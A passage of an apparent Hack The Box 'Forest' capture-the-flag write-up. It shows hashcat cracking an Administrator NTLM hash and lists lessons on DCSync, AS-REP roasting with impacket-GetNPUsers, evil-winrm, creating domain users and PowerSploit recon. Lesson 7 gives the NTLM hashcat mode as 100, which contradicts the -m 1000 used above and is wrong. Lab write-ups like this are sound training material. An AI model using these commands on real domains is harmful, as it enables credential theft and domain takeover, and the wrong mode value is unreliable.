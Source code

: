 ```
Copy the hash in the ntlm.txt file.
$ echo "htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::" > ntlm.txt
$ hashcat -m 1000 -a 0 ntlm.txt /usr/share/wordlists/rockyou.txt 
Session..........: hashcat                                
Status...........: Exhausted
```

### Lesson Learned

1. DcSync Attack work when the user has the `ObjectType : DS-Replication-Get-Changes-All ` set.
2. The Account Operator Group in Windows grants the Limited Account Creation Privileges to the user.
3. Once you get the valid list of users, You should check if any of the user has the Kerberos Pre-Authentication disabled; You can get the Kerberos Ticket using `impacket-GetNPUsers htb.local/svc-alfresco -dc-ip 10.10.10.161 -no-pass` command. Replace the username.
4. evil-winrm connects on port 5985 by default. When you run the nmap scan, make sure this port is open.
5. the **ACCOUNT OPERATOR** group **GRANTS LIMITED ACCOUNT CREATION PRIVILEGES TO A USER**. 
6. You can add new user in the domain using `net user forest_pwn password /add /domain`. 
7. When you try to crack the NTLM (-m 100 in hashcat) hash, use the `htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::` and save it as txt file then use hashcat command.
8. If you want to import PowerSploit recon module on a target, use `import-module PowerSploit\Recon` Following to that use `Get-Command -Module Recon` to list out the command supported by the Recon module.